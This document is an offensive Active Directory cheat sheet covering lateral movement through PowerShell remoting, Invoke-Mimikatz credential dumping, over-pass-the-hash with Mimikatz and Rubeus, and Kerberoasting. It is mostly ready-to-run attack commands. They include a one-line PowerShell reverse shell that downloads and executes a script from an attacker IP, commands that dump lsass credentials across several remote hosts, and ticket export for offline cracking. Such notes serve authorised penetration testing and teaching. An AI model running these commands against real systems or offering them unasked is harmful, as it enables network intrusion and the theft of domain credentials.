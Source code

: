 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername hostname.local\
Enter-PSSession $sess

No local file be included in Enter-PSSession/New-PSSession

**Execute commands on a machine(s) (non-interactive)**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}
Invoke-Command -Computername hostname -Scriptblock {$executioncontext.sessionstate.languagemode}
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content <list-of-servers-file>) 
```
{% endcode %}

**Execute script on a machine**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Computername (Get-Content <list-of-servers-file>) -FilePath  C:\scripty\a.ps1
❗Invoke-Command -FilePath C:\scripty\a.ps1 -Session $sess
   Enter-PSSession -Session $sess
   functionname_in_aps1
```
{% endcode %}



**Execute locally loaded function on a list of remote machines**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Scriptblock ${function:test} -Computername (Get-Content <list_of_servers>)
❗Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content <list_of_servers>)
A file/function test.ps1 is creatd and . .\test.ps1 With the content
function test
{
 Write-Output "Test" 
}
```
{% endcode %}

then run "test"  => Then we can run Invoke-Command -Scriptblock ${function:test} -Computername a\_host

**Execute locally loaded function on a list of remote machines & passing arguemnts (only positional arguments could be passed)**\
****

{% code overflow="wrap" %}
```powershell
Invoke-Command -ScriptBlock ${fucntion:getPassHashes} -Hostname a_host -ArgumentList

Use "Stateful" command using Invoke-Command:
$sess = New-PSSession -computername host1
Invoke-Command -session $sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -session $sess -ScriptBlock {$Proc.Name}
```
{% endcode %}

**Copy script to other server**

```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\hostname\c$\'Program Files'
```

**Powershell reverse shell**

{% code overflow="wrap" %}
```powershell
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000
```
{% endcode %}

## Mimikatz - Invoke-Mimikatz

* Dump credentials, tickets, passing & replaying hashes
* Using the code from ReflectivePEInjection mimikatz is loaded reflectively into memory.
* Administrative Privilege is needed for reading/writing to lsass e.g. dumping creds

**Dump credentials on local/remote machine**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -DumpCreds   //default parameter
Invoke-Mimikatz -DumpCreds -Computername @("host1","host2")    //uses PowerShell remoting cmdlet Invoke-Command (need local admin privs on remote host)
```
{% endcode %}

**Write to lsass / "over pass the hash" - generate tokens from hashes (we have the hash for the User specified)**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /domain:dom.local /ntlm:<ntlmhash> /run:powershell.exe"'
```
{% endcode %}

Creates a valid kerberos ticket using the ntlm hash of a user. Authenticate to Kerberos enabled Services afterfwards.

## **🍳Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel

{% code overflow="wrap" %}
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"
```
{% endcode %}

**Dump the ticket**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
=> Now Crack
```
{% endcode %}



## ⏩Over-Pass the Hash

### Description



### Attack commands

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt

Invoke-Mimikatz '"sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe'"
```
{% endcode %}





